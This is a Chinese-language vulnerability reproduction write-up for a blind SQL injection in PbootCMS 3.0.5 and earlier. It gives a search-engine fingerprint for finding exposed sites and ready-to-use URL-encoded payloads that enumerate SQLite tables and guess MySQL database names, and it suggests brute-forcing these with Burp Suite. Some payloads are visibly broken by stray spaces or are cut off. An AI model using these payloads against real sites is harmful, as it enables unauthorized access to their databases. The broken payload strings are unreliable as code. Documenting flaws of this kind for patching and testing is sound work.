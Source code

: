 # 

# PbootCMS domain SQL注入漏洞

## 漏洞描述

PbootCMS 搜索模块存在SQL注入漏洞。通过漏洞可获取数据库敏感信息

## 漏洞影响

```
PbootCMS <= 3.0.5
```

## 网络测绘

```
app="PBOOTCMS"
```

## 漏洞复现

本地搭建最新版本,访问首页

![image-20220518155003298](./images/202205181550559.png)

我们需要访问一个存在的页面

url中13后加个单引号 `'`，若为执行sql报错相关,则漏洞存在

![image-20220518155017186](./images/202205181550238.png)

若显示下图，则漏洞无法利用

![image-20220518155030427](./images/202205181550475.png)

程序默认搭建为sqlite3数据库, Fuzz当前数据库表单payload

```
')%0aand%0a(SELECT%0acount(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d'ta ble'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%')<40--
```

![image-20220518155108672](./images/202205181551731.png)

通过此payload进行盲注Fuzz数据库中表单总数是否小于40

查询为真返回正常,假则报错

![image-20220518155128134](./images/202205181551193.png)

由此我们可以准确推断出表单总数

计算sqlite数据库中第一个表名长度,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0alength(tbl_name)%0aFROM%0asqlite_master%0aWHERE%0atype%3d't able'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimit%0a
```

![image-20220518155148056](./images/202205181551121.png)

猜解第一个表名称,我们可以使用如下payload:

```
')%0aand%0a(SELECT%0asubstr(tbl_name,1,1)%0aFROM%0asqlite_master%0aWHERE%0atype% 3d'table'%0aand%0atbl_name%0aNOT%0alike%0a'sqlite_%'%0alimi
```

![image-20220518155205342](./images/202205181552408.png)

这样可以得到数据库第一个表的第一位数值为字符串"a"

通过substr()函数,我们可以很轻松的得到表名称.

同理可获取其他数据

#### 在Mysql下的利用方式

猜解当前数据库名称 可以使用如下payload进行Fuzz:

```
')%0aand%0a(select%0asubstr(database(),1,1)%3d'p')%23
```

查询为真时页面将返回正常.

使用Burpsuite可以爆破出数据库名称,其他表名字段名等方法相同

